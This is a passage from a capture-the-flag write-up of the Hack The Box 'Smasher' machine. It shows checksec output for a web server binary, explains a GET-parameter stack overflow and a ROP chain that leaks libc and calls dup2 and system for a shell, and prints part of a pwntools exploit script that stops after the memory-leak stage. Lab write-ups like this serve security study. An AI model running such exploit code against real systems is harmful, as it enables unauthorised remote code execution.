 We edit the file with vi and strip the HTTP headers, then we get a clean ELF file:

```
root@kali:~/hackthebox/Machines/Smasher# file tiny
tiny: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=b872377623aa9e081bc7d72c8dbe882f03bf66b7, with debug_info, not stripped

root@kali:~/hackthebox/Machines/Smasher# checksec tiny
[*] '/root/hackthebox/Machines/Smasher/tiny'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE
    FORTIFY:  Enabled
```

### Buffer overflow

There's an overflow in the GET parameter: if we send more than 568 characters in the GET request it'll crash. Because we have the binary and we can look around the file system we can:

- Check the PLT/GOT offsets in the binary
- Determine the libc version running on the target system

To find the libc base address, we'll construct a rop chain and use the `read` function already present in the PLT. By chance, the `RDX` register is already set to a large value so we don't need to find a gadget to mess with it. The binary contains `POP RDI` and `POP RSI` gadgets so we can pass the right parameters to the `read` function and dump a chunk of memory.

Calculating the libc address is a matter of fetching the `read` address from the GOT, then substracting its offset (which we know because we have the libc version). After, we'll calculate the memory address for `system`, `dup2` and the `/bin/sh` string.

We need to build a ROP chain that calls `dup2` first so we can redirect stdin and stdout to the socket.

The final exploit is:

```python
#!/usr/bin/python

from pwn import *

import urllib
import sys

r = remote('10.10.10.89', 1111)

fd = 4
offset = 568
junk = p64(0xAABBAABBAABBAABB)

plt_read = p64(0x400cf0)
plt_write = p64(0x400c50)
poprdi = p64(0x4011dd)
poprsi = p64(0x4011db)

payload_stage1 = ''
payload_stage1 += 'A' * offset
payload_stage1 += poprdi + p64(fd)
payload_stage1 += poprsi + p64(0x603088) + junk
payload_stage1 += plt_write

r.send('GET /%s\n\n' % urllib.quote(payload_stage1))
buf = r.recv().split('File not found')[1][0:8]
```